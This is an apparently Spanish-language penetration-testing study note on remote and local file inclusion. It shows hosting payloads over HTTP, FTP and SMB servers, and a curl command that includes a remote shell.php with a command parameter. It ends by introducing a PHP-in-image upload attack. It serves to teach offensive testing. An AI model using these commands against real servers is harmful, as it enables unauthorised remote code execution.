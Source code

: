 Ahora nosotros necesitamos incluirlo en la vulnerabilidad RFI. Es bueno estar escuchanndo los puertos para ver como el 80 o 443 

## HTTP

Vamos a empezar un servidor basico de python
```
sudo python3 -m http.server
```
Ahora incluiremos los archivos locales ousando la ip y el puerto

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/9ef723f3-623d-41ba-8334-bca2f6aa9c6b)

una vez veremos como se ha descargado

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/017b2d17-0fa1-411b-8898-e5dd9c75dd51)

## FTP

El protocolo ftp también lo podemos abrir con python
```
sudo python -m pyftpdlib -p 21
```

Noralmente esto es bloqueado por el firewall.

![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/78e10903-5087-46d1-98c3-9e7c690091f2)

```
curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

## SMB

Una aplicacion web vulnerable en Windows necesitara SMB noramlmente utiliza, abrimos un servidor SMB usando "Impacket's smbserver.py" y a sí se autentifica

```
impacket-smbserver -smb2support share $(pwd)
```
![image](https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/944831aa-be32-4670-bd48-e9bdfed92638)

## LFI Y SUBIDA DE ARCHIVOS

Las funcionalidades de subir archivos son obicuos en los sistemas modernos, los usuarios normalmente necesitan configuracion e los perfiles y usar la aplicacion para subir archivos. Los atacantes puede aaprovecha esto y sacar vulnerabilidades.

El ataque de subida de archivos coge diferentes tecnicas de subida y funcionalidaes. Sin embargo el ataque lo veremos ahora, requiere que se suba una rchivo en un form vulnerable, y grcias a ello con una ejecución de codigo cambien la funcion y capacidades, el codigo se sube y se ejcuta, Por ejemplo subes un "image.jpg" y guarad un pequeño códig PHP y incluye la vulnerabilidad LFI
